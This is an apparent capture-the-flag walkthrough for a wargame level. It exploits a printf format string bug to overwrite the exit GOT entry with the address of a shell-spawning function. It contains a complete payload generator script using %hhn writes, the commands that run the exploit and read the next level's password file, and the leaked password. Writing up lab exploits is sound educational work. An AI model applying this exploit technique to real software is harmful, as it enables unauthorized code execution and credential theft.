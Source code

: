 # Level 05 Walkthrough

## Binary analysis

The binary is vulnerable to a format string attack. The function `n()` reads user input and prints it with `printf`, then calls `exit(1)`. The function `o()` spawns a shell with `system("/bin/sh")` and exits. The goal is to overwrite the GOT entry for `exit` with the address of `o()`, so that when `exit` is called, it jumps to `o()` instead.

Relevant code:
```
080484a4    void o() __noreturn
080484b1        system(line: "/bin/sh")
080484bd        _exit(status: 1)

080484c2    void n() __noreturn
080484e5        char var_20c[0x208]
080484e5        fgets(buf: &var_20c, n: 0x200, fp: __bss_start)
080484f3        printf(format: &var_20c)
080484ff        exit(status: 1)

08048504    int32_t main(int32_t argc, char** argv, char** envp)
0804850a        n()
```

GOT address for `exit`: 0x08049838
Address of `o()`: 0x080484a4

## Exploitation

We use a format string payload to overwrite the GOT entry for `exit` with the address of `o()`, byte by byte, using `%hhn`.

Python script to generate the payload:
```python
from struct import pack
import sys

o_addr = 0x080484a4
exit_got = 0x08049838
addresses = [exit_got, exit_got+1, exit_got+2, exit_got+3]
values = [o_addr & 0xff, (o_addr >> 8) & 0xff, (o_addr >> 16) & 0xff, (o_addr >> 24) & 0xff]
n_arg = 4  # Offset to our addresses on the stack

payload = b''.join(pack("<I", addr) for addr in addresses)
written = len(payload)
fmt = ""
for i, val in enumerate(values):
    to_write = (val - written) % 256
    if to_write == 0:
        fmt += f"%{n_arg + i}$hhn"
    else:
        fmt += f"%{to_write}c%{n_arg + i}$hhn"
    written += to_write

payload += fmt.encode() + b"\n"
with open("payload.txt", "wb") as f:
    f.write(payload)
```

## Commands used

```
(cat payload.txt; cat) | ./level5
ls
cat /home/user/level6/.pass
```

## Result

After running the exploit, we get a shell as level6 and can read the password:

```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

Copy the password for the next level. 